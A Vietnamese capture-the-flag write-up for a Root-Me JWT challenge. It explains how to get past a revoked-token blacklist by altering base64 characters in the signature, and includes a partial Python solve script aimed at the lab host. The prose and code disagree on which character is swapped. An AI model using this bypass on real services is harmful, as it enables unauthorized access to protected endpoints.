 ```
@app.route('/web-serveur/ch63/admin', methods=['GET'])
@jwt_required
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
 
 
if __name__ == '__main__':
    scheduler = BackgroundScheduler()
    job = scheduler.add_job(delete_expired_tokens, 'interval', seconds=10)
    scheduler.start()
    app.run(debug=False, host='0.0.0.0', port=5000)
```

Đây chall đầu tiên của rootme mà mình chơi nó cho xem source code. (dạng này thì mình hơi non tay @@). 

Sau khi ngẫm nghĩ 1 hồi cái source thì đại khái nó là khi mình login thành công với đúng định dạng json ``{"username":"admin","password":"admin"}`` thì nó sẽ trả về cái token ( đồng thời cái token này cũng bị đưa vào blacklist) và nhiệm vụ của mình là dùng cái token đó để truy cập đuợc vào admin để lấy flag

```
job = scheduler.add_job(delete_expired_tokens, 'interval', seconds=10)
```

Ở hàm main có 1 cái job gọi đến cái def  ``delete_expired_tokens():`` mỗi 10s. Hàm def này sẽ thực hiện decode cái jwt thông qua jwt.decode, nếu gặp phải exception thì sẽ add vào set ``to_remove`` và thực hiện so sanh với blacklist thông qua func difference().

Khi access vào admin, nó sẽ kiểm tra header Authorization để check xem cái jwt đó nó có hợp lệ hay không và có nằm trong blacklist hay không. Vậy làm thế nào để có thể bypass cái này khi mà vừa xác thực thành công thì JWT đã bị đưa vào blacklist. 

Vậy solution ở đây sẽ là thay đổi signature key mà không làm thay đổi nội dung của nó :v . Nhắc lại token jwt đưọc tạo như sau:

```
const token = base64urlEncoding(header) + '.' + base64urlEncoding(payload) + '.' + base64urlEncoding(signature)
```

Có kha khá trick để thay để signature để khi mà decode base64 ra thì nội dung nó vẫn thế ( nhưng mà tạo sao chỉ đc thay đổi signature thôi ? Bởi vì signature đưọc tạo ra gồm bởi header,payload,secret(optional) và alg, nếu thay đổi header or payload -> new signature)

Ở đây ta có thể thêm = vào cuối vì khi decode b64 nó sẽ trả về giống nhau.

Ngoài ra, mình có thể generate cái token đến khi nào phần signature key có ``-``, và mình sẽ thực hiện thay đổi nó thành ``/`` (bởi vì ``-`` và ``/`` sau khi decode b64 sẽ trả về kqua giống nhau) 

```
#!python3

import string
import requests
url='http://challenge01.root-me.org/web-serveur/ch63/'
data1={"username":"admin","password":"admin"}
while True:
    r=requests.post(url+'login',json=data1).text
    a=r[17:len(r)-3:].split('.')
    if "_" in a[2]:
        a[2]=a[2].replace('_','/')
        string='.'.join(a)
        header={"Authorization": "Bearer " + string}
```